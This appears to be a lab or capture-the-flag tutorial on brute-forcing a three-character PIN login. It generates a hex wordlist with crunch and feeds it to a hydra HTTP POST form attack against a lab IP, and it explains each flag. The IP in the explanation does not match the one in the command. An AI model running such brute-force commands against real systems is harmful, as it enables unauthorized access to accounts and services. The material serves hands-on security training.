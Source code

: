 ## Generating the Password List

Crunch is a tool that generates a list of all possible password combinations based on given criteria.

```bash
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```

- `3` the first number is the minimum length of the generated password
- `3` the second number is the maximum length of the generated password
- `0123456789ABCDEF` is the character set to use to generate the passwords
- `-o 3digits.txt` saves the output to the 3digits.txt file

## Using the Password List

We can use hydra to test every possible password that can be put into the system```

```bash
hydra -l '' -P 3digits.txt -f -v 10.10.10.10 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

- `-l ''` indicates that the login name is blank as the security lock only requires a password
- `-P 3digits.txt` specifies the password file to use
- `-f` stops Hydra after finding a working password
- `-v` provides verbose output and is helpful for catching errors
- `10.10.110.157` is the IP address of the target
- `http-post-form` specifies the HTTP method to use
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by :
	- `/login.php` is the page where the PIN code is submitted
	- `pin=^PASS^` will replace ^PASS^ with values from the password list
	- `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
	- `-s 8000` indicates the port number on the target
